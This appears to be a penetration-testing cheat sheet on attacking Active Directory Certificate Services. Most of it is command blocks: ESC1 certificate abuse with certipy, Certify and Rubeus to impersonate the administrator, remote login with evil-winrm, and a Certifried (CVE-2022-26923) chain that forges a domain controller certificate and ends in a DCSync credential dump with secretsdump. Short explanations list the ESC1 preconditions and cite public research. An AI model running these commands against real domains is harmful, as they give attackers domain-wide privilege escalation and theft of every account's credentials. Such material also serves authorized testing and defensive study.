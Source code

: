 # ADCS (Active Directory Certificate Services)

{% embed url="https://xbz0n.sh/blog/adcs-complete-attack-reference" %}

{% embed url="https://github.com/ly4k/Certipy" %}

{% code overflow="wrap" fullWidth="true" %}
```sh
# Find vulnerable certificate
certipy find -u $USER -p $PASS -target domain.local -text -stdout -vulnerable
Certify.exe find /vulnerable
# Request certificate
certipy req -u $USER -p $PASS -target domain.local -upn administrator@domain.local -ca $CA_NAME -template $TEMPLATE_NAME -debug
Certify.exe request /ca:$CA_NAME /template:$TEMPLATE_NAME /altname:administrator
# Pass-the-Ticket
certipy auth -pfx administrator.pfx
Rubeus.exe asktgt /user:administrator /certificate:cert.pfx 
Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /show /nowrap
# If 5986 (WinRM SSL is open), we can authenticate with evil-winrm
evil-winrm -S -c key.cert -k key.pem -i $IP # IP or dom.local
```
{% endcode %}

**Tactic:** Attacks involving Active Directory Certificate Services (AD CS) have become popular since the[ Certified Pre-Owned white paper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) was released in 2021.&#x20;

It disclosed eight different attacks against AD CS (specifically those involving misconfigured certificate templates), with the attack labeled ESC1 arguably being the most widespread in AD environments and easiest to pull off with readily available tools from a Windows or Linux attack host.&#x20;

This attack is possible if certain criteria are met:&#x20;

1. The Certificate Authority (CA) grants enrollment rights to low-privileged users (meaning they can request certificates),&#x20;
2. Approval is not required by a “manager” user for certificate requests,&#x20;
3. Certificate requests do not need to be signed,&#x20;
4. A certificate template exists that grants enrollment rights to low-privileged users, meaning a user is able to request and obtain a certificate based on the given template
5. The last condition (that makes this attack so powerful) is that the given certificate template allows the requestor to specify a Subject Alternate Name (SAN).&#x20;

Linux [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

Windows [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)

CVE-2022-26923, commonly referred to as _**Certifried**_, is an Active Directory domain privilege escalation vulnerability that was patched as part of Microsoft’s May 2022 security updates.&#x20;

The vulnerability, first reported by [Oliver Lyak](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4), abuses Active Directory Certificate Services (AD CS) to request machine certificates with arbitrary attacker-controlled DNS host names.

{% code overflow="wrap" fullWidth="true" %}
```sh
https://github.com/ly4k/Certipy
# Create a machine account
certipy account create -u username@domain -p password -user <Account Name> -dns <dNSHostName> [-dc-ip <DC IP>]
# Request a new certificate
certipy req -u username@domain -p password -ca <CA Name> -template Machine
# Authentication to receive the certificate file
certipy auth -pfx dc.pfx -dc-ip <DC IP>
# The NT Hash of the dc$ computer object is returned
# Finally, DCSync attack
secretsdump 'domain/DC$dc.domain' -hashes :<NT Hash>

```